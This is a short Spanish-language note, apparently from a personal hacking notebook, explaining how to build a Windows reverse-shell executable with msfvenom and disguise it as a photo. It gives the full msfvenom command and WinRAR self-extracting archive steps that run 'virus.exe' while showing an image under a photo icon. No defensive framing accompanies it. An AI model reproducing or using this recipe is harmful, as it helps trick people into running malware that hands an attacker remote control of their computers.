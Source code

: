 Vamos a utilizar [[msfvenom]], para crearnos un payload que esté hecho para Windows:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=myIP LPORT=port -f exe -o trampita.exe`

Para meterlo dentro de una foto:

1. Nos hace falta tener el archivo en formato ".ico":

"Convert ico" y descargamos el nuevo icono.

2. Usamos winrar:

Abrimos Winrar.
Añadir al archivo.

	1. Crear un archivo autoextraíble.
	2. Método de compresión: la mejor.

Avanzado -> Autoextraíble -> Instalación.

	Ejecutar tras la instalación (virus.exe, foto.png)

Texto e icono -> Cargar icono desde fichero -> Examinar.

	Seleccionamos la foto que está en formato ico.


	